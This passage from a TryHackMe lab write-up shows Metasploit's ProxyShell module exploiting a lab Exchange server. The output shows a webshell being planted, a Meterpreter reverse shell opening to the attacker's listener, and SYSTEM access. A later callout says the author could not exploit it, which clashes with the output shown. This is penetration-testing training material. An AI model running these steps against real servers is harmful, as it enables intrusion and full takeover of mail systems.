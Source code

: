 One interesting task that hasn't been done yet is `Install the Security Update for MS Exchange`.

There is a Remote Code Execution vulnerability in MS Exchange that we can try.

Let's run `metasploit` and use the `exploit/windows/http/exchange_proxyshell_rce` module.

We set Email to `dev-infrastracture-team@thm.local`, the rhosts and lhost.

```terminal
msf6 exploit(windows/http/exchange_proxyshell_rce) > run

[*] Started reverse TCP handler on 10.9.65.100:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Attempt to exploit for CVE-2021-34473
[*] Retrieving backend FQDN over RPC request
[*] Internal server name: win-12ouo7a66m7.thm.local
[*] Assigning the 'Mailbox Import Export' role via dev-infrastracture-team@thm.local
[+] Successfully assigned the 'Mailbox Import Export' role
[+] Proceeding with SID: S-1-5-21-2402911436-1669601961-3356949615-1144 (dev-infrastracture-team@thm.local)
[*] Saving a draft email with subject 'qJsINJcx' containing the attachment with the embedded webshell
[*] Writing to: C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\5YGhwaT2.aspx
[*] Waiting for the export request to complete...
[+] The mailbox export request has completed
[*] Triggering the payload
[*] Sending stage (200774 bytes) to 10.10.249.49
[+] Deleted C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\5YGhwaT2.aspx
[*] Meterpreter session 1 opened (10.9.65.100:4444 -> 10.10.249.49:17646) at 2023-04-16 23:37:42 +0200
[*] Removing the mailbox export request
[*] Removing the draft email

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

>I was not able to exploit this myself as well as other people I found on the TryHackMe's discord server. Feel free to contact me if you find a way to do it.
{: .prompt-info }

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

## References
